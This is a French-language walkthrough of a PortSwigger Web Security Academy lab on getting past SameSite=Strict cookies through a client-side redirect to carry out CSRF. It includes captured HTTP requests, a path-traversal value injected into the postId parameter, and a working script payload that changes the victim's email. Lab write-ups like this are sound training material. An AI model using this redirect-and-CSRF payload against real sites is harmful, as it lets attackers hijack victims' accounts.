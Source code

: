 # Lab

https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect

## Solution

Dans ce lab quand on se connecte via POST `/login` on voit dans la réponse :

```html
HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: session=aump8Q6QCZrfXrRycETORMd7mjUVr2MW; Secure; HttpOnly; SameSite=Strict
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Le cookie de session est sécurisé avec `SameSite=Strict` ce qui veut dire qu'il ne sera pas envoyé dans les requêtes cross-site.

On peut donc déjà savoir qu'il va falloir utiliser une opent redirect pour exploiter la vulnérabilité CSRF pour que la requête soit faite depuis le même domaine.

Quand on est sur la page de modification de l'adresse mail et qu'on lance le change, on voit dans la requête POST :

```html
POST /my-account/change-email HTTP/2
Host: 0ac80042048e53bb860b218000270017.web-security-academy.net
Cookie: session=aump8Q6QCZrfXrRycETORMd7mjUVr2MW
Content-Length: 42
Content-Type: application/x-www-form-urlencoded

email=attacker%40dontwannacry.com&submit=1
```

Si on essaye de changer le verbe HTTP en GET, on a une réponse 302 Found.

On peut donc essayer de faire une opent redirect en changeant le verbe HTTP en GET et en changeant l'adresse mail.

```html
GET /my-account/change-email?email=attafdcker%40dontwannacry.com&submit=1 HTTP/2
Host: 0ac80042048e53bb860b218000270017.web-security-academy.net
Cookie: session=aump8Q6QCZrfXrRycETORMd7mjUVr2MW
```

On a une réponse 302 Found avec une redirection vers `/my-account` et l'adresse mail a bien été changée.

Maintenant pour l'open redirect, on peut utiliser la fonctionnalité de redirection qui est vulnérable lors de post d'un commentaire :

```js
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```

En injectant dans le query param `postId` une url avec un verbe HTTP GET, on peut faire une opent redirect.

```html
GET /post/comment/confirmation?postId=10/../../my-account/change-email?email=toto%40dontwannacry.com&submit=1 HTTP/2
Host: 0ac80042048e53bb860b218000270017.web-security-academy.net
Cookie: session=aump8Q6QCZrfXrRycETORMd7mjUVr2MW
```

On voit que ca fonctionne donc on peut générer un payload CSRF pour changer l'adresse mail d'un utilisateur :

```html
<script>
    document.location = 'https://0ac80042048e53bb860b218000270017.web-security-academy.net/post/comment/confirmation?postId=10/../../my-account/change-email?email=toto%40dontwannacry.com%26submit=1';
</script>
```

Ne pas oublier d'encoder le caractère `&` en `%26` sinon le paramètre `submit` ne sera pas passé dans la requête.